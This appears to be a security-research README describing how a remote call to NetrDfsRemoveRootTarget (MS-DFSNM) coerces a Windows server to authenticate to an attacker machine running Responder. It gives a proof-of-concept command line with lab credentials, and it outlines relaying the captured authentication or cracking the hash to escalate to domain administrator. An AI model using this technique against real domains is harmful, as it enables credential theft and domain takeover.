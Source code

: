 # MS-DFSNM - Remote call to NetrDfsRemoveRootTarget (opnum 24)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

+ **Protocol version**: 3.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrDfsRemoveRootTarget`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/1f70f350-439a-4051-a427-eb939e3fce81)

+ **Function operation number**: `24`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsRemoveRootTarget`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/1f70f350-439a-4051-a427-eb939e3fce81) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsRemoveRootTarget('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsRemoveRootTarget(
   [in, unique, string] LPWSTR pDfsPath,
   [in, unique, string] LPWSTR pTargetPath,
   [in] ULONG Flags
 );
```

## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

+ Documentation of function `NetrDfsRemoveRootTarget`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/1f70f350-439a-4051-a427-eb939e3fce81